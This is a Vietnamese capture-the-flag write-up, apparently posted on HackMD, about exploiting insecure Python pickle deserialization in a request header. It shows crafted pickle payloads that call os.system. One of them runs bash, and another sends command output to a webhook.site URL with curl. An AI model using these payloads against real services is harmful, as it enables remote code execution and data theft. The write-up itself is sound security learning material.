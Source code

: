 Vào thử thì cũng không có gì khả nghi

![image](https://hackmd.io/_uploads/Sy_XNmJqyg.png)

Cho đến khi check Burpsuite thì mình phát hiện có một header lạ đã được base64 lại : gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==

![image](https://hackmd.io/_uploads/ByhS47yqJx.png)

Tiến hành decode thì mình nhận ra luôn đây là pickle serialize của python 

![image](https://hackmd.io/_uploads/Hk2fHmJ9Jx.png)

Payload của X-Serial-Token: b'\x80\x04\x95\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x05dreky\x94\x85\x94R\x94.'

Sau khi tìm hiểu thì mình biết là nó sẽ gọi hàm dreky nên mình thử dump và nhận được một cái pickle gần giống vậy : b'\x80\x04\x95\x1f\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x04ls /\x94\x85\x94\x86\x94.'

![image](https://hackmd.io/_uploads/BkVLS719ke.png)

Ok thì lúc này chỉ cần craft payload thôi, ta có thể dễ dàng tìm trong blog này : https://adrianstoll.com/post/python-in-a-pickle-an-explanation-of-the-python-pickle-format-and-security-problems/ . Ta có thể xây dựng một pickle như sau "cos\nsystem\nS'/bin/bash'\n\x85R." để thực thi lệnh /bin/bash khi load 

![image](https://hackmd.io/_uploads/BJD9HQy5kx.png)

Ok thì mình sẽ tiến hành xây dựng một pickle để thực hiện lệnh ls như sau 


```python
import base64 
import pickle
import os

payload = b"cos\nsystem\nS'ls'\n\x85R."
print(pickle.loads(payload))
print(base64.b64encode(payload))
```

Có thể thấy lệnh sẽ chạy sau khi load và mình có thể xem được các file trong thư mục hiện tại

![image](https://hackmd.io/_uploads/SyQmV8xckl.png)

Có một vấn đề là khi submit payload thì web trả ra process id của lệnh chứ không phải output nên mình nghĩ đến reverse shell hoặc wget webhook 

![image](https://hackmd.io/_uploads/ryW387191l.png)

Lúc này mình xây dựng payload để wget webhook và thực hiện lệnh ls để list các thư mục hiện tại

```python
import base64 
import pickle
import os

payload = b"cos\nsystem\nS'FLAG=$(curl https://webhook.site/642fc66c-f78b-40b5-9795-648e101b262d/?c=`ls`'\n\x85R."
print(pickle.loads(payload))
print(base64.b64encode(payload))
```
